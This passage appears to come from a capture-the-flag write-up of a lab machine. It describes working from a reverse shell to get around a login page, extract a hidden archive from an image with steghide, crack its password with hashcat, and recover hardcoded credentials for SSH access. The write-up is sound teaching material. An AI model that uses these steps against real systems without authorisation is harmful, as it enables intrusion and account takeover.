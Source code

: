 The files in `/var/www/files` seem to be a new web service. So, inside our reverse shell, run:
```
php -S 0.0.0.0:8080
```
Now, by the browser, navigate to `http://10.10.204.221:8080` and we get a login page. We can bypass it by calling directly the PHP pages inside `/var/www/files` directory. Let's visit `http://10.10.204.221:8080/hacker.php`.

We land in a page with the following string:
```
You have reached this far.
Look in the dark! You will find your answer
```
We guess the "dark" could be referred to some hidden file inside the hacker JPEG image. Save it and run:
```
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
Enter passphrase: <empty>
wrote extracted data to "backup.zip".
```
This archive is password-protected. Let's use John for cracking it:
```
zip2john backup.zip > zip.hash
```
In this case, edit `zip.hash` removing the name of the zip file and its content at the beginning and the end of the string in order that Hashcat or John can recognize this hash.

Let's crack it:
```
hashcat -a 0 -m 17200 zip.hash $SECLISTS/Passwords/Leaked-Databases/rockyou.txt
```
The cracked password is: `pass1word`. So:
```
unzip backup.zip

Archive:  backup.zip
[backup.zip] source_code.php password: pass1word
  inflating: source_code.php 
```
Inside `source_code.php` file, we can see:
```
if(isset($_POST['submit']))
        {
                $email = $_POST["email"];
                $password = $_POST["password"];
                if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
                {
                        $random = rand(1000,9999);?><br><br><br>
                        <form method="POST">
                                Enter the OTP: <input type="number" name="otp">
                                <input type="submit" name="submitOtp" value="Submit">
                        </form>
                <?php   mail($email,"OTP for authentication",$random);
                        if(isset($_POST["submitOtp"]))
                                {
                                        $otp = $_POST["otp"];
                                        if($otp == $random)
                                        {
                                                echo "Welcome Anurodh!";
                                                header("Location: authenticated.php");
                                        }
```
The decoded Base64 string for the password is: `!d0ntKn0wmYp@ssw0rd`. We can use Anurodh credentials for accessing to the server by SSH:
```
ssh 10.10.204.221 -l anurodh

```